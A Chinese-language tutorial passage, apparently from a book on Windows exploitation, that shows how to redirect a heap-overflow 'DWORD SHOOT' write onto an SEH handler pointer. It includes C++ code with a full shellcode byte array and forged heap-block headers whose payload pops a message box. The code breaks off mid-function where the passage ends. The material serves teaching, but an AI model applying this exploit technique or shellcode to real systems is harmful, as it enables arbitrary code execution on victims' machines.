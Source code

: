 <img src="images/05/定位SEH结构体.png" width="480">

发现离第一个 S.E.H 位于 0x0012FF2C 的地方，那么异常回调函数的句柄应该位于这个地址后 4 个字节的位置 0x0012FF30。现在，将 DWORD SHOOT 的目标地址由 0x90909090 改为 0x0012FF30，去掉程序中的中断指令，重新编译运行，结果如图 6.1.10 所示。

消息框成功的弹出，证明 shellcode 得到了执行。

更改后的代码如下：
```c++
#include <stdio.h>
#include <windows.h>
char shellcode[]=
	"\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x16\x01\x1A\x00\x00\x10\x00\x00"// head of the ajacent free block
	"\x88\x06\x42\x00"//0x00520688 is the address of shellcode in first Heapblock
	"\x30\xFF\x12\x00";//target of DWORD SHOOT
DWORD MyExceptionhandler(void)
{
	ExitProcess(1);
	return 0;
```
